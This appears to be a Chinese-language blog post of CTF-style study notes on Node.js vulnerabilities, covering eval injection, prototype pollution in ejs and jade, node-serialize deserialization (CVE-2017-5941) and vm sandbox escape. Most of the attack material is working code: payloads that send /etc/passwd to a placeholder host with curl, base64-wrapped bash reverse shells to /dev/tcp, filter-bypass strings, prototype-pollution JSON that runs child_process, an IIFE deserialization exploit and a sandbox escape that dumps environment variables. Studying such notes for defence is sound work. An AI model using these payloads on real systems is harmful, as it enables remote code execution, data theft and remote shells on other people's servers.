


Nodejs特例
大小写转换函数
toUpperCase(): 将小写转换为大写的函数
toLowerCase(): 将大写转换为小写的函数
注意：
前者可以将ı转换为I, 将 ſ转为为S

后者可以将İ转换为i, 将 K 转换为 k
数组
a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)
通过调试：
可以传入数组绕过
命令执行
eval
eval() 函数可计算某个字符串，并执行其中的的 JavaScript 代码。和PHP中eval函数一样，如果传递到函数中的参数可控并且没有经过严格的过滤时，就会导致漏洞的出现。
漏洞实例：
var express = require('express');
var app = express();
app.get('/eval', function(req, res){
res.send(eval(req.query.cmd));
console.log(req.query.cmd);
})
var server = app.listen(8000, function(){
console.log("实例的地址在http://127.0.0.1:8000");
})我们知道上面代码中，在/eval路由中的cmd传入参数可控，可以传入javascript代码进行代码执行
在Nodejs中child_processhttp://nodejs.cn/api/child_process.html中调用的是/bash.sh，是一个bash解释器，可以执行系统命令，构造`require('child_process').exec(xxx)`执行命令
payload
// windows中弹出计算机
?cmd=require('child_process').exec('calc');
// linux中读取敏感文件
?cmd=require('child_process').exec('curl -F "x=`cat /etc/passwd`" http://vps'); //没有回显的时候
?cmd=require('child_process').exec('cat /etc/passwd');
// 反弹shell
?cmd=require('child_process').exec('echo xxx|base64 -d|bash');
//其中的 xxx 是 bash -i >& /dev/tcp/vps/port 0>&1 base64加密之后的字符串
// 读取文件
?cmd=require('fs').readFileSync('xxx(文件名)', 'utf-8');
__filename
__dirname如果上下文中没有require(类似于Code-Breaking 2018 Thejs)，则可以使用global.process.mainModule.constructor._load('child_process').exec('calc')来执行命令
Bypass
过滤exec: 拼接exec绕过
?cmd=require('child_process')['exe'+'c']('ls') ?cmd=require('child_process')['exe'%2B'c']('ls')
其他命令
间隔两秒执行函数
setInterval(some_function, 2000)
两秒后执行函数
setTimeout(some_function, 2000)
输出
Function(“console.log(‘xxx’)”)()
原型链污染
prototype是一个类的属性，所有实例化这个类的对象都拥有这个属性中的所有内容，包括变量和方法__proto__是一个实例化对象的属性，执行对应类的prototype属性
为什么一个空对象的zoo，有bar属性？那是因为，zoo和foo的类都是Object类，通过__proto__修改了这个对象的原型，zoo就带有了bar属性
如果能够控制数组的键名进行操作就可以进行原型链的污染了
- 对象merge
- 对象clone
//demo
function merge(target, source) {
for (let key in source) {
if (key in source && key in target) {
merge(target[key], source[key])
} else {
target[key] = source[key]
}
}
}
let object1 = {}
let object2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
merge(object1, object2)
console.log(object1.a, object1.b)
object3 = {}
console.log(object3.b)在JSON解析的情况下，__proto__会被认为一个真正的键名，而不是代表原型（let o2 = {a: 1, "__proto__": {b: 2}}）
Code-Breaking 2018 Thejs
这个题中主要的就是因为使用了ejs模板引擎，有一个RCE漏洞
而且在lodashs.merge函数这里存在一个原型链污染漏洞
ptions是一个对象，sourceURL取到了其options.sourceURL属性。这个属性原本是没有赋值的，默认取空字符串。
但因为原型链污染，我们可以给所有Object对象中都插入一个sourceURL属性。最后，这个sourceURL被拼接进new Function的第二个参数中，造成任意代码执行漏洞。
我将带有__proto__的Payload以json的形式发送给后端，因为express框架支持根据Content-Type来解析请求Body，这里给我们注入原型提供了很大方便：
payload:
{"__proto__":{"sourceURL":"\nglobal.process.mainModule.constructor._load('child_process').exec('calc')//"}}
{"__proto__":{"sourceURL":"\nreturn e=> {for (var a in {}) {delete Object.prototype[a];} return global.process.mainModule.constructor._load('child_process').execSync('id')}\n//"}}jade原型链污染
覆盖掉line就可以达到注入的目的
{"__proto__":{"compileDebug":1,"self":1,"line":"console.log(global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/xxx/6666 0>&1\"'))"}}Node.js中的反序列化漏洞：CVE-2017-5941
复现机：ubuntu16.06
准备
安装nodejs, npm
# nodejs
sudo apt-get install nodejs
sudo apt-get install nodejs-legacy
# 版本号
node -v
# npm
sudo apt-get install npm
# 版本号
npm -v漏洞出现在node-serialize模块的0.0.4版本中
# 下载对应版本
sudo npm install node-serialize@0.0.4 --save测试代码：
// index.js
var serialize = require('node-serialize');
var chybeta = {
vuln : function(){require('child_process').exec('whoami', function(error, stdout, stderr) {console.log(stdout);});},
}
serResult = serialize.serialize(chybeta);
console.log("serialize result:");
console.log(serResult+'\n');
console.log("Direct unserialize:")
serialize.unserialize(serResult);
console.log("\n");
console.log("Use IIFE to PWN it:")
exp = serResult.substr(0,serResult.length-2) + "()" + serResult.substr(-2);
console.log(exp);
console.log("Exec whoami:")
serialize.unserialize(exp);
// node index.js成功执行了whoami命令
分析
- 什么是IIFE(Immediately-Invoked Function Expression)
》立即调用函数表达式，是一个在定义的时候就会被执行的表达式
实例：
(function(){
var name = "RoboTerh";
})()
//无法从外部访问变量name- 漏洞点
在node_modules/node-serialize/lib/serialize.js中的59行开始是反序列化的处理
exports.unserialize = function(obj, originObj) {
var isIndex;
if (typeof obj === 'string') {
obj = JSON.parse(obj);
isIndex = true;
}
originObj = originObj || obj;
var circularTasks = [];
var key;
for(key in obj) {
if(obj.hasOwnProperty(key)) {
if(typeof obj[key] === 'object') {
obj[key] = exports.unserialize(obj[key], originObj);
} else if(typeof obj[key] === 'string') {
if(obj[key].indexOf(FUNCFLAG) === 0) {
obj[key] = eval('(' + obj[key].substring(FUNCFLAG.length) + ')');
} else if(obj[key].indexOf(CIRCULARFLAG) === 0) {
obj[key] = obj[key].substring(CIRCULARFLAG.length);
circularTasks.push({obj: obj, key: key});
}
}
}
}
if (isIndex) {
circularTasks.forEach(function(task) {
task.obj[task.key] = getKeyPath(originObj, task.obj[task.key]);
});
}
return obj;
};其中有一段
obj[key] = eval('(' + obj[key].substring(FUNCFLAG.length) + ')');eval中是使用()包含了的，如果里面是一个function(){}函数，在反序列化的时候就会被当作IIFE立即执行
构造payload
serialize = require('node-serialize');
var test = {
exp : function(){
require('child_process').exec('ls /', function(error, stdout, stderr){
console.log(stdout)
});
},
}
console.log("序列化生成的payload:\n" + serialize.serialize(test));
// {"exp":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /',function(error,stdout,stderr){console.log(stdout)});}"}我们还需要在生成的序列化字符串后面加上括号
{"exp":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /',function(error,stdout,stderr){console.log(stdout)});}()"}
将payload传入unserialize函数中：
// test2.js
serialize = require('node-serialize');
payload = '{"exp":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\',function(error,stdout,stderr){console.log(stdout)});}()"}';
serialize.unserialize(payload);
成功执行命令
Node.js 目录穿越漏洞复现 CVE-2017-14849
影响环境
- Node.js 8.5.0 + Express 3.19.0-3.21.2
- Node.js 8.5.0 + Express 4.11.0-4.15.5
环境搭建
vulhub:
docker-compose build
docler-compose up -dvm沙箱逃逸
- 逃逸实例
const vm = require("vm");
const env = vm.runInNewContext(`this.constructor.constructor('return this.process.env')()`);
console.log(env);可以得到计算机的所有环境变量
等价于代码
const vm = require('vm');
const sandbox = {};
const script = new vm.Script("this.constructor.constructor('return this.process.env')()");
const context = vm.createContext(sandbox);
env = script.runInContext(context);
console.log(env);因为this.constructor.constructor返回的是一个Function constructor，所以可以利用Function对象构造一个函数并执行。(此时Function对象的上下文环境是处于主程序中的) 这里构造的函数内的语句是return this.process.env，结果是返回了主程序的环境变量。
执行任意命令
const vm = require("vm");
const env = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('whoami').toString()`);
console.log(env);参考
Node.js 常见漏洞学习与总结 - 先知社区 (aliyun.com)
ctfshow NodeJs web334-web344 wp_是Mumuzi的博客-CSDN博客
(21条消息) ctfshow—Node.js漏洞总结_cosmoslin的博客-CSDN博客
深入理解 JavaScript Prototype 污染攻击 | 离别歌 (leavesongs.com)
再探 JavaScript 原型链污染到 RCE - 先知社区 (aliyun.com)


- Post link: https://roboterh.github.io/2022/02/22/Nodejs%E5%B8%B8%E8%A7%81%E6%BC%8F%E6%B4%9E/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.